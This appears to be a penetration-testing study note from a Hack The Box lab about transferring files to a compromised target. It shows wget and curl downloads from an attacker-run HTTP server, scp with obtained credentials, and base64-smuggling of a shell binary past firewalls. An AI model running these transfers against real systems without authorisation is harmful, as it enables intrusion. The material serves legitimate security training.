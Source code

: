 ### wget
- We can use multiple methods to download files from our host to the target using wget.
- One is running a [Python HTTP server](https://developer.mozilla.org/en-US/docs/Learn/Common_questions/set_up_a_local_testing_server) from the host and having the target download the files from there.
- An example of doing that is shown below:
```shell-session
secmancer@htb[/htb]$ cd /tmp
secmancer@htb[/htb]$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
- Now with it setup, we can easily download the file on the target:
```shell-session
user@remotehost$ wget http://10.10.14.1:8000/linenum.sh

...SNIP...
Saving to: 'linenum.sh'

linenum.sh 100%[==============================================>] 144.86K  --.-KB/s    in 0.02s

2021-02-08 18:09:19 (8.16 MB/s) - 'linenum.sh' saved [14337/14337]
```
- If wget isn't available on the target, we can also use cURL to download the file as well:
```shell-session
user@remotehost$ curl http://10.10.14.1:8000/linenum.sh -o linenum.sh

100  144k  100  144k    0     0  176k      0 --:--:-- --:--:-- --:--:-- 176k
```
- Note: the `-o` flag specifies the output file name.



### SCP
- We can also use scp using obtained ssh user credentials from the target.
```shell-session
secmancer@htb[/htb]$ scp linenum.sh user@remotehost:/tmp/linenum.sh

user@remotehost's password: *********
linenum.sh
```
- We specified the local file name after `scp`.
- So, the remote directory will be saved to after the `:`.


### Base64
- We may not be able to transfer the file so easily, like if the target has firewall protections in place.
- If this happens, we can use the trick of encoding the file with [base64](https://linux.die.net/man/1/base64) and then decoding the string on the target computer.
```shell-session
secmancer@htb[/htb]$ base64 shell -w 0

f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU
```
- With this string, we can put it onto the target and use `base64 -d` to decode it and pipe it into a file.
```shell-session
user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell
```


### Validating File Transfers
- We can use the [file](https://linux.die.net/man/1/file) command to validate the file's format.
```shell-session
user@remotehost$ file shell
shell: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, no section header
```
- As we can see, it is an ELF binary, meaning the transfer was successful!
- To further ensure we didn't mess it up during the encoding/decoding process, we can check the md5 hash associated with it.
```shell-session
secmancer@htb[/htb]$ md5sum shell

321de1d7e7c3735838890a72c9ae7d1d shell
```
- Now, we can run the same command on the file we have transferred:
```
user@remotehost$ md5sum shell

321de1d7e7c3735838890a72c9ae7d1d shell
```
- Since both hashes match, it was transferred correctly.